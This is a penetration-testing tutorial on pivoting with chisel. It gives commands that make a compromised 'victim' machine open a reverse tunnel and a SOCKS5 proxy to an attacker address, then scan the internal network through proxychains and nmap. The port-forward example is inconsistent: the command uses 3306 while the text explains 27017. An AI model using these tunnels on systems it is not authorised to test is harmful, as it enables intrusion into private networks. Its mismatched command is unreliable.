 soc# Port Forwarding

Port forwarding with `chisel` is quite simple. For example, if you discovered an open MongoDB service running on a remote computer and wanted to forward traffic from a local port to that remote MongoDB service. Here’s how you could achieve that with `chisel` :

## On the Attacking Machine

chisel server -p 3477 --reverse

-   `server`: run the server mode
-   `-p` : port for the server to listen on
-   `--reverse`: allows reverse port forwarding

## On the Victim Machine

chisel client 13.37.13.37:3477 R:2222:127.0.0.1:3306/tcp

-   `client` : run the client mode
-   `13.37.13.37:3477` : the IP address of the attacker’s machine and the port that was specified in the `chisel server` command
-   `R:2222:127.0.0.1:27017/tcp`: the `R` means we want to perform a reverse port forward; `2222` is the port number we want to use to route traffic through on the attacker’s machine; `127.0.0.1:27017` is the IP address/port we want to route our traffic to on the client’s machine; `/tcp` means we want to use the TCP protocol.

The previous commands will allow us to access the MongoDB service running locally on the remote machine on port 2222 on the attacking machine.

Now that we’ve seen how to perform a port forward with `chisel`, let’s create a SOCKS proxy so that we can route all of our traffic with the victim machine.

# SOCKS Proxies

SOCKS proxies capabilities was a recent addition to `chisels` capabilities which I think is awesome. Creating a SOCKS is extremely useful during a pentest, for example, because you can use a tool like Proxychains to route all of the traffic from your attacker tools through the victim’s machine — effectively making it appear as if traffic were originating from the victim’s machine. Here’s how we can set up a SOCKS proxy with `chisel`:

## On the Attack Machine

chisel server -p 3477 --socks5 --reverse

-   `-p`: port for the server to listen on
-   `--socks5`: start an internal SOCKS5 proxy
-   `--reverse`: allows for reverse port forwarding

## On the Victim Machine

chisel client 13.37.13.37:3477 R:5000:socks

-   `13.37.13.37:3477` : the IP address of the attacker machine and the port number specified in the `chisel server` command
-   `R:5000:socks:`the `R` means we want to perform a reverse port forward; `5000` will be the port on the attacker machine that will act as the entry point to our SOCKS5 proxy; and `socks` simply means we are using the SOCKS protocol.

## Proxychains

Configuring Proxychains to use our accessible SOCKS proxy simply requires that we add an entry to the bottom of `/etc/proxychains.conf` under `[ProxyList]` section. We need to specify the IP address and port of the SOCKS proxy we want to route our traffic through. In this case, we want to specify `socks5 127.0.0.1 5000` since our SOCKS proxy is listening on localhost port 5000:

![](https://miro.medium.com/max/700/1*mhBYMO2hZA0ZM5sCgwebLQ.png)

Now we can run the following command on the attacker machine to run Nmap through the victim's machine:

proxychains -q nmap -T4 -sn 10.10.10.0/24

And that’s all you need to know to harness the power of `chisel` — Happy Hacking!